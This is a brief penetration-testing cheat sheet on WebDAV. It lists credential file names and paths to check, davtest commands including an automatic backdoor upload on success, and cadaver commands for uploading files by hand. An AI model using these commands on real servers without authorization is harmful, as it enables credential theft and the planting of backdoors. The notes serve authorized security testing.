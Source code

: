 # webdav

## Cred File

```bash
# names
.htpasswd
passwd.dav

# check in
/etc/apache2
/var/www
/var/www/html
/var/www/html/*/webdav
```

## davtest (auto-scan)

```bash
davtest -url http://IP/PATH -cleanup [-auth user:pass] [-nocreate]
# cleanup: clean post testing
# nocreate: does not create directory to test in webdav root dir

# auto backdoor on successful upload
$ davtest -url http://IP/PATH [-auth user:pass] -sendbd auto

# upload file
davtest -url http://IP/PATH [auth user:pass] -uploadfile <FILE> -uploadloc <FILENAME-ON-SERVER>
```

## cadaver (manual enum)

```bash
cadaver http://IP/PATH
# will ask your user:pass

put <FILE>
```

## References
* [Hacktricks.xyz/put-method-webdav](https://book.hacktricks.xyz/pentesting/pentesting-web/put-method-webdav)
